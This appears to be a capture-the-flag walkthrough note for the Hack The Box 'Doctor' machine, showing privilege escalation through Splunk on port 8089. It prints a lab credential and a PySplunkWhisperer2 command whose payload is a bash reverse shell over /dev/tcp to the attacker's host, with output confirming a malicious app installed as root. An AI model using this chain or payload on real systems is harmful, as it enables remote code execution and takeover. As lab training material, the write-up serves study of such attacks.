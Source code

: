 # 15 - PrivEsc


# Password
![](vx_images/1133638025159.png)


It doesn't belong to any ssh users. However, it is still a password let's try it on Splunk(8089)

# Splunk
![](vx_images/1813922687789.png)

We are successfully logged in. Splunkd is running as root



# Code execution
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/doctor/SplunkWhisperer2/PySplunkWhisperer2]
└──╼ $ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.14 --lport 4444 --username  shaun --password Guitar123 --payload 'bash -c "bash -i >& /dev/tcp/10.10.14.14/4445 0>&1"'
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpa7ao_pom.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.14:4444/
10.10.10.209 - - [20/Aug/2021 13:36:48] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

```



# Shell
![](vx_images/2863008266733.png)
